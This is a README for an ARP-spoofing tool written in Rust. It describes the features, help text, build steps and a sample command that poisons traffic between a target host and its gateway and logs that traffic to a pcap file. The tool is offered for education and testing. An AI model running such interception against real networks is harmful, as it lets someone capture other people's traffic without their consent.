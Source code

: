 # arp-spoof


This is a minimal ARP-Spoofing tool written in **Rust language** using pcap.

This tool allows intercepting Ipv4 traffic between two hosts on the same network.
Typically between one machine and the internet gateway.

**This tool is for educational purposes only.**

## Features:

* 1 to 1 route poisoning
* save intercepted traffic as pcap file
* automatic Ipv4 forwarding

# Usage
```
Usage:
    ./arp-spoof [OPTIONS]

Minimal ARP spoofing tool written in rust.

optional arguments:
  -h,--help             show this help message and exit
  -i,--interface INTERFACE
                        interface name
  --own OWN             own ipv4 address (required until pcap allows ip
                        enumeration)
  --target TARGET       target ipv4 address
  --gateway GATEWAY     gateway ipv4 address
  --log-traffic         logs all target traffic to `save.pcap`
  -n,--no-forward       leave `/proc/sys/net/ipv4/ip_forward` untouched
  -v,--verbose          be verbose
  -V,--version          show version
```
A typical invocation would look like this. The arguments are pretty self-describing.
```
# ./arp-spoof --interface eth0 --own 192.168.0.100 --target 192.168.0.16 --gateway 192.168.0.1 --log-traffic
Own mac address for eth0 is: 95:8F:6F:17:36:71
[+] forwarding ipv4 traffic: true
Found 7E:FA:8B:B2:F5:8A at 192.168.0.16
Found 7C:0B:B6:94:11:6B at 192.168.0.1
[+] Poisoning traffic between 192.168.0.16 <==> 192.168.0.1
[*] Received: 3512, dropped: 0, if_dropped: 0
```
# Building

```
# cargo build
```
Tested with rust 1.5.0.


## Linux

On Arch based Linux, install `community/rust`, `community/cargo` and `core/libpcap`. If not running as root, you need to set capabilities like so: ```sudo setcap cap_net_raw,cap_net_admin=eip path/to/bin```


## Rust Crate Dependencies

* pcap
* argparse
* nix
* time


# TODO:

* implement `n` to `m` route poisoning
* remove `--own` parameter as soon as rust-pcap allows ip enumeraation
